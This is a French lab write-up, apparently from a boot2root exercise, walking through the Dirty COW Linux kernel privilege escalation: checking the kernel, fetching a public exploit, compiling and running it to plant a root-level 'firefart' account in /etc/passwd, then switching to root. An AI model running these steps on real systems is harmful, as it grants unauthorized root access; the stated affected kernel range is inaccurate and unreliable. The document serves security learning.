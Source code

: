 # Dirty COW
## Introduction
Dirty COW est le nom donné faille de sécurité du noyau Linux. Elle va nous permettre une élévation de privilèges avec l'exécution d'un simple programme C.

## Compatibilité
Cette faille n'est exploitable qu'avec une version du noyau comprise entre 2.6.22 et 3.9. On vérifie notre version du noyau :
```
> uname -r
3.2.0-91-generic-pae
```
Notre VM est compatible avec cette faille.

## Récupération et exécution du code
La faille étant assez connue, il est possible de récuperer facilement le code à exécuter. Nous avons récupéré [celui ci](https://www.exploit-db.com/exploits/40839).

On se connecte en ssh à la VM. Tous les utilisateurs dans le sujets sont compatibles avec la faille.
```
> ssh -p 22 zaz@192.168.99.102
646da671ca01bb5d84dbb5fb2238dc8e
```
On créer un fichier `exploit.c` qui contient le code récupéré préalablement. On compile avec `gcc`. Certains flags sont necessaires :
```
gcc exploit.c -lpthread -lcrypt
```
En exécutant le `a.out` :
```
> ./a/out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiGIOrsN6mdSc:0:0:pwned:/root:/bin/bash

mmap: b7fda000
```

Le programme nous demande un mot de passe, on saisit le mot de passe de notre choix comme `125boot2root`

Nous pouvons maintenant lancer la commande `su`
et rentrer le mot de passe préalablement choisis.


Un `whoami` nous affichera l'utilisateur `firefart`. Son `id` est bien `0`, nous somme donc passé `root`.
```
> whoami
firefart
> id
uid=0(firefart) gid=0(root) groups=0(root)
```

## Comprendre la faille

Lorsqu'on fait un `cat /etc/passwd`, on obtient plusieurs lignes avec les différents users. Par exemple lmezard

`lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash` 

`1001` est l'uid de `lmezard`

Le `x` indique que son mot de passe est stocké dans un fichier.
Lorsqu'on éxécute le script, le `x` va être remplacé par un hash du mot de passe saisis ! 

